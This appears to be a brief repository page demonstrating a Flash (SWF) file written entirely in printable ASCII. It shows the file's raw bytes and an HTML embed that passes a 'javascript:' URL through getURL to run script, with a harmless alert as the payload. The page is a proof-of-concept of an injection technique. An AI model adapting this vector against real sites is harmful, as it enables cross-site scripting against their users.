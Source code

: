 ### optimized version

<https://github.com/alokmenghrajani/alokmenghrajani.github.com/blob/master/ascii-flash.swf>

```
CWSjackihCRTTd```0`h;C|Q~~	@2>.~>>I@`<0F/a1ok@N	
```

```html
<html>
<body>
<object type="application/x-shockwave-flash" data="ascii-flash.swf?m=getURL&movieclip=javascript:alert%28'hi'%29" width="500" height="500">
</object>
</body>
</html>
```
